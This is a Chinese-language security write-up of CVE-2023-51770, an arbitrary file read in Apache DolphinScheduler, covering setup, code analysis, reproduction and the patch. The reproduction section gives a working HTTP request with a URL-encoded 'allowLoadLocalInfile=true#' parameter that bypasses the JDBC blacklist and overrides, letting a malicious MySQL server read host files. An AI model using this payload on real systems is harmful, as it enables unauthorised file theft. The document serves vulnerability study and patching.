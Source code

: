 

# Arbitrary File Read Vulnerability in Apache Dolphinscheduler(CVE-2023-51770) - 先知社区

Arbitrary File Read Vulnerability in Apache Dolphinscheduler(CVE-2023-51770)

- - -

# 漏洞描述

Apache Dolphinscheduler 中的任意文件读取漏洞。此问题会影响 Apache Dolphinescent：3.2.1 之前的版本。我们建议用户将 Apache Dolphinescent 升级到 3.2.1 版本，该版本可以修复此问题。

# 漏洞版本

version<3.2.1

# 环境搭建

官网下载源码及 bin 运行包

```plain
tar -xvzf apache-dolphinscheduler-*-bin.tar.gz
cd apache-dolphinscheduler-*-bin
bash ./bin/dolphinscheduler-daemon.sh start standalone-server
```

修改 jvm 在 standalone-server/bin/start.sh  
访问[http://localhost:12345/dolphinscheduler/ui](http://localhost:12345/dolphinscheduler/ui)  
admin/dolphinscheduler123

[![](assets/1709022888-9c4a271f21dca6a89f74e7abc2164fe5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172225-8dda3060-d488-1.png)

# 代码分析

根据修复补丁分析：[\[Enhancement\]\[API\]Enhance mysql connection properties by lgcareer · Pull Request #15433 · apache/dolphinscheduler · GitHub](https://github.com/apache/dolphinscheduler/pull/15433/files)

漏洞存在于 org.apache.dolphinscheduler.plugin.datasource.mysql.param.MySQLDataSourceProcessor#getConnection

[![](assets/1709022888-c4a29bc74f44cb1db3a3c9fc761f7c40.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172233-925bb26c-d488-1.png)

这里调用了MySQLDataSourceProcessor#getJdbcUrl函数将返回值作为jdbcUrl来进行连接

[![](assets/1709022888-1abb8e9223a1cdfef9c0be3deba71336.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172237-953724c6-d488-1.png)

进行了判断：如果请求存在 other 参数，就会进入到 MySQLDataSourceProcessor#transformOther

[![](assets/1709022888-419aa81dba559bc2fb51759a5f76c809.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172242-97d5fbbc-d488-1.png)

可以看到这里使用MySQLDataSourceProcessor#checkKeyIsLegitimate函数  
对 other 参数中的键名进行了过滤（第一层过滤：contains 判断），排除了黑名单内键名

[![](assets/1709022888-8db65d7ee251a1f1dc677931af26ae15.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172248-9b5cd670-d488-1.png)

黑名单如下：  
如果存在如下键名就会替换为 null

[![](assets/1709022888-918106ea29dc7e4abb1f09101f9944c2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172253-9e8af2aa-d488-1.png)

在键名过滤之后，还会追加 APPEND\_PARAMS 到 jdbcUrl 中

[![](assets/1709022888-32fff8f3b83b983e8c208a38338fe1ae.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172258-a1c80e6c-d488-1.png)

PPEND\_PARAMS 如下

[![](assets/1709022888-7f345423e9db9e2d94a09dd5a3badf46.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172303-a4430818-d488-1.png)

是将危险的 jdbcUrl 参数通过字符串的形式设置为 false，这样用户在这之前设置的危险参数都将被覆盖  
也就是在初始化 jdbcUrl 语句时进行了过滤（第二层过滤：属性覆盖）

# 漏洞复现

根据已知的 jdbcAttack 攻击绕过手段，全部过滤可以被绕过（绕过细节可以参考上一篇 Dataease jdbcUrl bypss 分析），请求如下

```plain
POST /dolphinscheduler/datasources/connect HTTP/1.1
Host: 172.18.178.167:12345
Content-Length: 407
Accept: application/json, text/plain, */*
sessionId: 338d2a47-ed61-4fc5-9868-5c8b0c57dec5
language: zh_CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Content-Type: application/json;charset=UTF-8
Origin: http://172.18.178.167:12345
Referer: http://172.18.178.167:12345/dolphinscheduler/ui/datasource
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: securityConfigType=PASSWORD; sessionId=338d2a47-ed61-4fc5-9868-5c8b0c57dec5; language=zh_CN; sessionId=338d2a47-ed61-4fc5-9868-5c8b0c57dec5
Connection: close

{"type":"MYSQL","label":"MYSQL","name":"t2","note":"","host":"172.18.176.1","port":3308,"principal":"","javaSecurityKrb5Conf":"","loginUserKeytabUsername":"","loginUserKeytabPath":"","mode":"","userName":"c","password":"","database":"d","connectType":"","other":{"%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#":"a"},"endpoint":"","MSIClientId":"","dbUser":"","datawarehouse":""}
```

已知在 jdbcurl 中可以通过#符号截断后续的字符为注释字符串  
jdbcurl 又可以解析参数名和参数值的 url 编码形式，那么就可以将 other 键名设置为

-   %61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#  
    url 解码后为
-   allowLoadLocalInfile=true#

[![](assets/1709022888-073decb0ac021de18737d612b68e759b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172314-aafff850-d488-1.png)

此时 getJdbcUrl(connectionParam) 的返回值就变成了

```plain
jdbc:mysql://172.18.176.1:3308/d?%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65#=a&allowLoadLocalInfile=false&autoDeserialize=false&allowLocalInfile=false&allowUrlInLocalInfile=false
```

%61%6c%6c%6f%77%4c%6f%61%64%4c%6f%63%61%6c%49%6e%66%69%6c%65=%74%72%75%65经过url编码不会在org.apache.dolphinscheduler.plugin.datasource.mysql.param.MySQLDataSourceProcessor#checkKeyIsLegitimate触发contains函数，成功的绕过了第一层过滤  
然后可以看到 allowLoadLocalInfile=false&autoDeserialize=false&allowLocalInfile=false&allowUrlInLocalInfile=false 被#符号截断，成为了无效的注释字符，这样就可以绕过第二个过滤  
此时创建恶意 mysql 服务器，就可以利用 allowLoadLocalInfile 参数读取服务器任意文件

[![](assets/1709022888-1c60ee4d21a4fcc7fead587c3f1f58aa.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172328-b372b84c-d488-1.png)

# 漏洞修复

根据修复补丁分析：[\[Enhancement\]\[API\]Enhance mysql connection properties by lgcareer · Pull Request #15433 · apache/dolphinscheduler · GitHub](https://github.com/apache/dolphinscheduler/pull/15433/files)  
[![](assets/1709022888-8bfb4804d29c16ba79bf6d2613b40732.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240226172333-b620a4dc-d488-1.png)

不再通过直接拼接 jdbcUrl 来进行过滤，而是将过滤属性作为 properties 来进行初始化（这样就无法通过注释绕过），修复了漏洞
